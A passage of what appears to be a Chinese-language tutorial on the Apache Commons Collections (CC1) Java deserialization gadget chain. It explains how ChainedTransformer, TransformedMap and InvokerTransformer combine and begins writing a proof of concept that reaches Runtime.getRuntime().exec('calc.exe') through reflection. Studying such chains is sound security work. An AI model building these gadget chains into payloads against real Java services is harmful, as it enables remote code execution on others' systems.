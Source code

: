 ```java
                        new AnnotationTypeMismatchExceptionProxy(
                            value.getClass() + "[" + value + "]").setMember(
                                annotationType.members().get(name)));
                }
            }
        }
    }
```

以上就是第一条完整的链。整理一下思路：

```java
1、transform数组里面含有4个实现了Transformer接口的对象，这四个对象都重写了transform()方法
2、ChianedTransformer里面装了4个transform,ChianedTransformer也实现了Transformer接口，同样重写了transform()方法
3、TransoformedMap绑定了ChiandTransformer，给予map数据转化链，当map里的数据进行修改时，需经过ChiandTransformer转换链
4、利用TransoformedMap的setValue修改map数据，触发ChiandTransformer的transform()方法
5、ChianedTransformer的transform是一个循环调用该类里面的transformer的transform方法
loop 1：第一次循环调用ConstantTransformer("java.Runtime")对象的transformer方法，调用参数为"test"(正常要修改的值)，返回了java.Runtime作为下一次循环的object参数
loop 2：第二次循环调用InvokerTransformer对象的transformer，参数为("java.Runtime")，包装Method对象"getMethod"方法，invoke方法获得对象所声明方法"getRuntime"，利用反射，返回一个Rumtime.getRuntime()方法
loop 3：第三次循环调用InvokerTransformer对象的transformer，参数为("Rumtime.getRuntime()")，包装Method对象"invoke"方法，利用反射，返回一个Rumtime.getRuntime()实例
loop 4：第四次循环调用InvokerTransformer对象的transformer，参数为一个Runtime的对象实例，包装Method对象"exe
```

### 编写POC

首先明确要实现的目标是：

```java
Runtime.getRuntime().exec("calc.exe");
```

因此首先要获得Runtime

```java
Class c = Runtime.class;
```

ConstantTransformer可以传一个Runtime类进去，当被遍历时调用transform方法可以返回一个Runtime类，正好作为下一个Transformer的transform方法中的参数。因此Transformer数组第一个Transformer如下：

```java
new Transformer[]{
  new ConstantTransformer(Runtime.class)
}
```

为什么不用 Runtime.getRuntime() 换成了 Runtime.class ？
前者是一个java.lang.Runtime 对象，后者是一个 java.lang.Class 对象。Class类有实现Serializable接口，所以可以被序列化。
下一步需要调用getRuntime，它是Runtime里面的方法，前面已经传了Runtime.class，要获取该方法显然只能通过反射，而InvokerTransformer中的transform方法刚好提供了这个功能。
正常反射使用方法

```java
Method f = Runtime.class.getMethod("getRuntime"); 
Runtime r = (Runtime) f.invoke(null);  //获取runtime对象
r.exec("calc.exe"); //调用exec
```
